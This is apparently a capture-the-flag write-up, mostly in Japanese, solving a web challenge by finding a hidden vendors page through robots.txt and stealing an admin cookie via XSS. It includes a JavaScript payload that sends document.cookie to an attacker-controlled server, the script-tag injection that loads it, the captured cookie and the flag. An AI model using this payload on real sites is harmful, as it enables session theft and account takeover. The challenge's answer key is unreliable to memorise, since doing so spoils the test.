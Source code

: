 # Wallowing Wallabies - Part One
Category: Web  
Point: 25

## Question
Wallowing Wallabies provides enterprise contract management - we'd like to find out how easy it is to perform corporate espionage against them. Visit them [here](https://wallowing-wallabies.ctfcompetition.com/).

**Please note** Please do not run automated scanners against the target - that's not the intended solution. Instead, perhaps look up "xss cookie catching", "xss cookie stealing" and other documents along those lines. Thanks!

## FLAG
`CTF{feeling_robbed_of_your_cookies}`

## Answer
ページにアクセスすると，1995年のようなWebサイトが表示される．
問題文からも察せるように，恐らくどこかにXSSの脆弱性があり，そこをついてCookieを奪取する必要があると思われる．

色々探しに探した結果，灯台下暗しともいうべきか，robots.txtに鍵となる情報が隠されていた．
```bash
$ curl https://wallowing-wallabies.ctfcompetition.com/robots.txt
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```

`/deep-blue-sea/team/`以下のうち，意味のあるページにアクセス出来るのは，`/deep-blue-sea/team/vendors`であった．
このページにアクセスすると，外部のスクリプトファイルを読み込むような挙動をするフォームの入力を促される．

このとき，予め，外部からアクセス可能なサーバを用意し，下記のスクリプトファイルを設置する．
```javascript
x = new XMLHttpRequest();
x.open("GET", "http://your-specific-domain-or-ip-address/?cookie=" + document.cookie, true);
x.send();
```
次に，上記のスクリプトファイルを読み込む`<script>`タグを，フォームの入力値に入れたうえで，送信する．
```html
<script src="http://your-specific-domain-or-ip-address/external.js">
```

すると，上記スクリプトファイルで指定したサーバに，Cookieの値が付加された状態でアクセスがくる．
指定したサーバのWebサーバのアクセスログを確認すると，Cookieの情報が載っている．
`?cookie=green-mountains=eyJub25jZSI6ImZmM2NmZThkMjQ4Mzg5MjYiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjEyMDQ1NH0=|1462120451|a424c4a7d272d408076dc784765a0dba80fea0dd`

`|`で三区分された一つ目の文字列は，Base64エンコードされていることが自明なので，デコードしてみる．
```bash
$ echo 'eyJub25jZSI6ImZmM2NmZThkMjQ4Mzg5MjYiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjEyMDQ1NH0=' | base64 -D
{"nonce":"ff3cfe8d24838926","allowed":"^/deep-blue-sea/team/vendors.*$","expiry":1462120454}
```
デコード結果より，`allowed`で指定されたページが関係していそうだと判明する．
上記のCookieの値をセットして，`vendors`ページをリフレッシュすると，フラグが表示される．

## Author
GitHub: @asakasa
